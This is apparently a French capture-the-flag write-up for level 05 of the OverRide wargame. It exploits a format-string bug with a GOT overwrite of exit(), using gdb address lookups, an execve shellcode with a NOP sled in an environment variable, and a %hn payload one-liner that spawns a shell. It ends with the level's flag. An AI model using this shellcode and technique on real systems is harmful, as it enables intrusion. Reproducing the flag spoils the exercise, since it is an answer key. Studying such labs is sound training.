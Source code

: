 # Level 05

### Protections

![](Ressources/protections.png)

### Analyse

* Le programme fait un `fgets()` de 100 caracteres
* Il boucle sur notre entree et converti les majuscules en minuscules
* Il fait un `printf()` de notre buffer puis `exit(0)`
  * Cela empeche l'exploitation d'une modification du saved-eip.

On peut en revanche tenter de modifier la **GOT** (Global Offset Table) afin de "remplacer" `exit()` par un shellcode.

### Exploitation

*Pour changer, nous allons faire passer notre Shellcode par les variables d'environnement.*

Notre shellcode est le suivant: `\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80`

On commence par le mettre en place dans l'env:

`export SHELLCODE=$(python -c 'print "\x90" * 1024 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')`

*On y a ajoute une belle marge de 1024 instructions NOP en vue des differences de memoires entre GDB et Bash.*

Ensuite, on localise l'adresse GOT d'`exit()`:

```
(gdb) disas main
.......... ......    ....   ......... .........
0x08048513 <+207>:   call   0x8048370 <exit@plt>
.......... ......    ....   ......... ..........
(gdb) x/i 0x8048370
0x8048370 <exit@plt>:        jmp    *0x80497e0
```

L'adresse que l'on ecrasera sera alors **0x80497e0**.

Il nous faut ensuite localiser notre variable d'environement:

```
(gdb) info variable environ
All variables matching regular expression "environ":
Non-debugging symbols:
0xf7fd0e04  __environ
0xf7fd0e04  _environ
0xf7fd0e04  environ

(gdb) x/x 0xf7fd0e04
0xf7fd0e04 <environ>:   0xffffd29c
(gdb) x/x 0xffffd29c
0xffffd29c:     0xffffd3fa
(gdb) x/s 0xffffd3fa
0xffffd3fa:      "LC_PAPER=fr_FR.UTF-8"
(gdb) x/5s 0xffffd3fa
0xffffd3fa:      "LC_PAPER=fr_FR.UTF-8"
0xffffd40f:      "LC_ADDRESS=fr_FR.UTF-8"
0xffffd426:      "LC_MONETARY=fr_FR.UTF-8"
0xffffd43e:      "SHELLCODE=\220\220.....
.........................................
```

On recupere **0xffffd43e**+10 (pour eviter "SHELLCODE="), et on y ajoute 512 afin de se servir de la marge etablie precedement -> **0xffffd63e**

On recupere ensuite l'offset de `printf()` pour atteindre notre buffer.

```
level05@OverRide:~$ (python -c 'print "aaaa" + "%p"*10') | ./level05 
aaaa0x640xf7fcfac00xf7ec3af90xffffd5ef0xffffd5ee(nil)0xffffffff0xffffd6740xf7fdb0000x61616161
```

**Offset:** 10

*On peut enfin finaliser notre injection.*

On donc utiliser l'argument `%n` de `printf()` pour ecraser l'adresse de la **GOT**. *(plus d'explications dans notre repository de Rainfall)*

On ecrit d'abord la partie basse car la somme de la partie haute est plus grande:

```
d63e: 54846 - 8 = 54838
ffff: 65535 - 54838 - 8 = 10689
```

`(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%54838d" + "%10$hn" + "%10689d" + "%11$hn"'; cat) | ./level05`

* "\xe0\x97\x04\x08" et "\xe2\x97\x04\x08" sont les parties haute et basse de l'entree GOT d'`exit()`.
* "%54838d" et "%10689d" permettent d'augmenter le compteur de `printf()`.
* "%10$hn" et "%11hn" visent les adresses citees au dessus et ecrivent le compteur actuel de `printf()` dans 2 bytes.

**h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq**
